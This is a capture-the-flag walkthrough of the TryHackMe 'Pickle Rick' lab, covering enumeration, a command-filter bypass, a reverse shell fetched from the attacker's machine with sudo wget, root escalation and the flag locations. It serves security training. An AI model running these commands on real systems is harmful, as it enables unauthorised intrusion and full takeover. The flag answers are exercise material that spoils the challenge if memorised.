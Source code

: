 <p align="center">
  THM : Pickle Rick<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/picklerick<br>
  <img src="https://i.imgur.com/3ypKR1f.png">
</p>

## Summary
- [NMAP Scan](#nmap-scan)
- [Manual Website Enumeration](#manual-website-enumeration)
- [Dirb Scan](#dirb-scan)
- [Getting a shell](#getting-a-shell)
- [Find flags](#find-flags)
- [Conclusion](#conclusion)

## NMAP Scan

Do the following cmd : nmap -A -p- -oN nmapResults.txt 10.10.181.166

```
# Nmap 7.92 scan initiated Fri Aug 19 23:14:31 2022 as: nmap -A -p- -oN nmapResults.txt 10.10.181.166

Nmap scan report for 10.10.181.166
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 66:c4:52:9e:e4:3a:d7:d1:cb:3f:d7:0e:e6:09:82:6e (RSA)
|_  256 3c:31:4a:49:af:7d:8e:75:70:40:db:04:69:d5:18:e6 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 19 23:14:48 2022 -- 1 IP address (1 host up) scanned in 17.18 seconds
```
## Manual website enumeration
If we go to the index page of the website, we can see that Rick is talking about a password that he forgot.
![alt text](https://i.imgur.com/1xrSiU4.png)  

Looking at the source code of the page, we can see that Rick left a comment containing a username.  
![alt text](https://ibb.co/QPNCZ8S)  
So now we have a username : **R1ckRul3s**

One of the first things I look for when i'm enumerating a website is the robot.txt file. So let's see if there is a robot.txt file on this web server.  
![alt text](https://i.imgur.com/cqP0pux.png)  
And we found a strange looking strings... It's not a page of the webserver so.. Maybe the password that Rick lost ? Let's write it down for the moment.  
## Dirb Scan
First I tried a simple dirb scan but it didn't found any interesting pages, so I decided to try using the -X parameter to search for page with extensions like so : ```dirb http://10.10.99.97/ -X .php```  
```
┌──(attacker㉿AttackBox)-[~/Bureau/CTF/Pickle_Rick]
└─$ dirb http://10.10.99.97/ -X .php     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Aug 19 23:20:38 2022
URL_BASE: http://10.10.99.97/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.99.97/ ----
+ http://10.10.99.97/denied.php (CODE:302|SIZE:0)
+ http://10.10.99.97/login.php (CODE:200|SIZE:882)
```
And we found a login.php page ! (The denied.php page redirects us to login.php)  
So let's go to this page and try to login with the informations we gathered :
![alt text](https://i.imgur.com/reIQn7I.png)  

Using **R1ckRul3s** as login and **Wubbalubbadubdub** as password, we are redirected to a portal.php page.  
![alt text](https://i.imgur.com/B3hfAUr.png)  

We cannot access any pages using the menu on top of the page. But here we have an input field that seems to be used to run commands. So let's try using **whoami**.  
![alt text](https://i.imgur.com/2u9jgra.png)  
We see that we can run linux commands. So we can try to use some other commands... I tried some useful commands and , we can run ls, wget, sudo -l, and cat, but there is some filters that prevent from using some commands , like for cat.  
We can easily bypass those filters by just putting a '\\' inside the command, like so : **c\at file**.  
Now we have multiple choices... I could just find the different flags using this command input, but I want to get a reverse shell, it will be more easier to search on the machine.  
Like I said, we can use sudo -l and ...  
![alt text](https://i.imgur.com/FKO4Icb.png)  
Yes... www-data can run any commands as root, without password.

## Getting a shell
I tried to download a reverse shell to the machine using wget, but it didn't work, because www-data don't have write premissions to /var/www/html. So I just ran the same command as sudo like so : ```sudo wget [my ip]/php-reverse-shell.php```.
Then I just set up a netcat listener on my machine, I entered http://[machine ip]/php-reverse-shell.php in the URL of my web browser, and I got a reverse shell.
Now I can just run ```python3 -c 'import pty; pty.spawn("/bin/bash")'``` and then ```sudo su``` to get a shell as root.  

## Find flags
Now I can get the 3 flags (ingredients for the potion that Rick needs) :  
What is the first ingredient Rick needs ? : **cat /var/www/html/Sup3rS3cretPickl3Ingred.txt**  
Whats the second ingredient Rick needs ? : **cat /home/rick/second\ ingredients**  
Whats the final ingredient Rick needs ? : **cat /root/3rd.txt**  

## Conclusion
In this CTF, we see that it can be useful to read the source code of pages on a web server, we can find useful informations, even if there is no credentials we can find CMS versions, links to other pages...  
I also learned that it is very easy for an attacker to get a full control of the machine if the user www-data has too much permissions. It is very important to manage permissions properly, www-data should not have the right to run any command as root.
Also, even if there is filters on command input, there is sometimes a way to bypass it.

